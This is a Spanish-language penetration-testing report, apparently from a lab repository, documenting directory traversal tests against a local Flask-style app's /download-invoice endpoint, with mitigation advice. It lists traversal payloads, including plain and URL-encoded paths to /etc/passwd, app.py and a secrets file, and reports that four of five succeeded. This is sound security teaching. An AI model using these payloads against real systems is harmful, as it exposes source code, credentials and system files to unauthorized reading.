






# PENTESTING.md

**Propósito:** Documentar las pruebas manuales y con herramientas para identificar y explotar la vulnerabilidad *Directory Traversal* en la aplicación.

---
## ¿Qué es Directory Transversal?
Es una vulnerabilidad de seguridad que permite a un atacante acceder a archivos y directorios fuera del directorio web raíz del servidor. Básicamente, es un método para "escapar" del directorio permitido y navegar por el sistema de archivos del servidor.

### ¿Cómo funciona?
Los atacantes utilizan secuencias especiales para navegar entre directorios:

text
http://ejemplo.com/archivo.php?documento=../../../etc/passwd
Secuencias comunes:

../ - Subir un nivel de directorio (Linux/Windows)

..\ - En sistemas Windows

....// - Variaciones para evadir filtros

## Resumen del objetivo

Probar el endpoint vulnerable `/download-invoice?file=` para confirmar si es posible leer archivos fuera del directorio previsto. Registrar y guardar evidencia (capturas y archivos) y documentar el proceso de explotación y la severidad.

---

## Entorno de pruebas

* URL de la aplicación: `http://localhost:5000`
* Endpoint objetivo: `/download-invoice?file=`
* Fecha de pruebas: `2025-11-03`

---

## Payloads probados

1. `../secreto.txt`
http://localhost:5000/download-invoice?file=../secreto.txt

2. `../app.py`
http://localhost:5000/download-invoice?file=../app.py

3. `../../etc/passwd`
http://localhost:5000/download-invoice?file=./../../etc/passwd

4. `../requirements.txt`
http://192.168.1.76:5000/profilehttp://localhost:5000/download-invoice?file=../requirements.txt

5. `../../etc/hosts`

**Variantes usadas:** `../../../etc/passwd`, `..%2F..%2Fetc%2Fpasswd`, `%252e%252e%252fetc%252fpasswd`

---

## Resultado y análisis

* **Confirmación:** La aplicación **es vulnerable** a Directory Traversal.
* **Archivos leídos con éxito:** `secreto.txt`, `app.py`, `/etc/passwd`, `requirements.txt` (4/5 payloads).
* **Impacto general:** Alto — lectura de código fuente y archivos que pueden contener secretos o configuraciones. Lectura de `/etc/passwd` permite enumerar usuarios del sistema (información útil para fases posteriores).

---

## Severidad (por archivo)

* `secreto.txt` — **Alta** (posible credencial/secretos).
* `app.py` — **Alta** (código fuente, posible exposición de claves).
* `/etc/passwd` — **Media** (información de usuarios).
* `requirements.txt` — **Media-Baja** (indica dependencias; útil para identificar versiones vulnerables).
* `/etc/hosts` — **Baja** (información de red local).

---

## Recomendaciones de mitigación

1. No permitir rutas relativas en parámetros de usuario; usar mapeo por ID.
2. Normalizar y resolver rutas en servidor (ej. `Path.resolve()` / `os.path.realpath()`) y comprobar que la ruta esté dentro del directorio permitido.
3. Rechazar entradas que contengan `..` o secuencias codificadas sospechosas.
4. Minimizar permisos de los archivos del servidor y mover secretos fuera del árbol web.
5. Revisar código publicado (`app.py`) para eliminar credenciales y rotar secretos si se detectaron.

---

## Criterios de aceptación del issue

* [x] README.md completo (existente).
* [x] PENTESTING.md (este documento).
* [x] EXPLOTACION.md creado (resumen + evidencias).
* [x] Al menos 4 de 5 payloads probados y documentados.
* [x] Capturas de pantalla y archivos guardados en `docs/evidence/`.
* [x] Confirmación escrita: *“La aplicación es vulnerable a Directory Traversal”*.
